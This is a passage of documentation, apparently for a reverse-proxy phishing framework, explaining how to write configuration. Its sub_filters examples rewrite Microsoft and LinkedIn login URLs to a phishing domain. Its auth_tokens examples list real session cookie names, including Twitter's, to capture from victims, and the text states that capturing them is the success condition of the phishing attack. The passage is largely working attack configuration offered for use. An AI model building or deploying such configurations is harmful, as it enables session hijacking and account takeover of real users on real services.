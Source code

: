 ### example 1

```
  - {triggers_on: 'login.live.com', orig_sub: 'login', domain: 'live.com', search: 'https://{hostname}/ppsecure/', replace: 'https://{hostname}/ppsecure/', mimes: ['text/html', 'application/json', 'application/javascript']}
```

* Filter will trigger only for packets proxied to hostname `login.live.com`.
* Searches for all occurences of string `https://login.live.com/ppsecure/` and replaces them with `https://login.phishdomain.com/ppsecure/`.

### example 2

```
  - {triggers_on: 'www.linkedin.com', orig_sub: 'cdn', domain: 'linkedinapis.com', search: '//{hostname}/([0-9a-z]*)/nhome/', replace: '//{hostname}/${1}/nhome/', mimes: ['text/html', 'application/json']}
```

* Filter will trigger only for packets proxied to hostname `www.linkedin.com`.
* Searches for all occurences of string `//cdn.linkedinapis.com/<any_alphanumeric_string>/nhome/` and replaces them with `//cdn.phishdomain.com/<alphanumeric_string_from_regexp_group>/nhome/`.

## auth_tokens

Defines all cookies that should be captured in transmitted proxied responses. These cookies should define the full state of authenticated user's session, allowing the website to recognize a logged in user. When all defined cookies are intercepted and captured, the session is logged and the phishing attack is considered a success. At that point the user is redirected to the URL specified in initial phishing URL.

```
auth_tokens:
  - domain: '.twitter.com'
    keys: ['kdt','_twitter_sess','twid','auth_token']
```

* `domain` *(string)*: Domain exactly as received in the HTTP response packet. The `.` in the beginning indicates that the cookies will be sent for all subdomains of that domain.
* `keys` *(string array)*: Exact name of the cookie that will be searched for and captured. Available modifiers for each key are `regexp` and `opt` (see below).

#### keys modifiers

* `regexp`: Treats cookie name as a regular expression. For example key `'frog-[0-9]{3},regexp'` will look for any key like `frog-283`, `frog-111`, `frog-291` to capture. **IMPORTANT!** If you use at least one regexp modified key, make sure to trigger session capture with `auth_urls` (explained below).
* `opt`: Treats that cookie as optional. If that cookie arrives, it will be captured, but if it doesn't and other required cookies have already been captured, the session will be considered finished.

### example 1

```
auth_tokens:
  - domain: '.company.com'
    keys: ['session','_visit','id']
  - domain: 'auth.company.com'
    keys: ['sid','ver,opt']
```
